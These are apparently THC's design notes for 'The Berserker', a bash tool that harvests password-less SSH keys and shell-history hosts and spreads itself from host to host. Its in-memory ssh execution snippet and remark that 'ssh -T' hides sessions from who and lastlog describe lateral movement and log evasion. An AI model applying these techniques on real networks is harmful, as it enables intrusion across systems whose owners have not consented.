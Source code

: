 ```yaml
---
layout: default
---
```

{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

Random notes on how [The Berserker](../) works.

### Executive Summary
[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

### General
The Berserker looks for any password-less private ssh-key in ```~/.ssh``` and then gathers information from the User's shell history (```~/.bash_history```, ```.zsh_history``` and ```~/.history```) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues do do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User ```alice``` starts The Berserker on host ```Earth``` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that ```alice``` frequently connects to ```Mars``` (as alice) and ```Jupiter``` (as root). The Berserker first connects to ```Mars``` and executes itself on ```Mars```. Let's assume The Berserker finds no further ssh-keys on ```Mars``` and so it will not spread beyond ```Mars```. Next it connects from ```Earth``` to ```Jupiter```. It's a root login to ```Jupiter``` and The Berserker finds many ssh-keys from various users. One such user is ```bob``` who frequently connects to ```Uranus``` and from there to ```Pluto```. Ultimately The Berserker will get to ```Pluto``` via a long ssh chain from ```Earth```->```Jupiter```->```Uranus```->```Pluto```.

At this point the educated reader will realise that The Berserker is *deep penetrating* ```Uranus```, e.g. ```Uranus``` gets owned even if firewalled or not being accessible from the Internet (but accessible from ```Jupiter```).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to ```Earth``` (the *origin* where The Berserker started).

### Bash In-Memory execution
Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh -Tn user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named ```e.sh```.

1. Slurp the content into the variable ```$S``` after converting all ```'``` to ```'"'"'```. That's a bit freaky but hold your beer.

1. I use the hex notation (```\x27```) of ```'``` here or otherwise it would look rather complicated (```sed``` needs the ```'``` escaped so it is double-escaping time): ```S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"```. Most readers would commit suicide at this point. This is just to escape ```'``` correctly so that it can be passed to ```ssh``` as a command via a variable (```SCRIPT='$S'```) without interfering with the ```'``` around the ```$S```.

1. The ```ssh``` parameter ```-T``` stops the host from allocating a PTY but also stops the session from showing up in ```who``` and ```lastlog```. 

1. The long string ```export SCRIPT='$S'; bash -c \"\$SCRIPT\"``` is passed as a command to ```ssh``` to execute on the remote host. Note that the ```$``` in ```\"\$SCRIPT\"``` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute ```$SCRIPT```. This is only needed because The Berserker needs to access the source of its own script (now stored in ```$SCRIPT``` to spread to further hosts). Otherwise ```bash -c '$S'``` would work.

No data is written to the target's host hard drive. All is kept in memory.

### Bash Command line parsing

There is no efficient way to convert a command line string from ```~/.bash_history``` to an array in bash. The programm ```xargs``` comes to the rescue but it can only execute another program with the command line string read from stdin. So we used ```xargs``` to call ```bash -c``` and output each command line argument in a separate line and then convert this into a bash array:
```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable ```line``` now contains
```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note that the ```eval eval``` is needed. The first convert the ```${#}``` to the integer number of arguments passed to the bash by ```xargs``` and the second ```eval``` resolves the ```~/``` to the absolute directory name.

That format can now easily be split into an array like so:
```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```
 * Note how the *string* ```MyArray``` is passed as a function parameter (followed by the ssh command). Inside the function we use ```eval``` on that string to 'turn' the string-name (```MyArray```) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

### Bash stderr and $? catching

The Berserker needs to check the error output of ```ssh``` _and_ also needs the exit-code of ```ssh```. The only way to do this in bash is to play file descriptor bonanza:
```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "Output ret=$ret err=$err"
```
* The ```echo 1>&2 "Hello-STDERR";``` generates some test output to STDERR.
* The ```exit 123;``` is some test exit code (123).

The output is ```Output ret=123 err=Hello-STDERR```.

### If you are reading this...

If you made it all the way to here then you are the type of person we like to speak to more. Join us on [Telegram](https://t.me/thcorg).

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


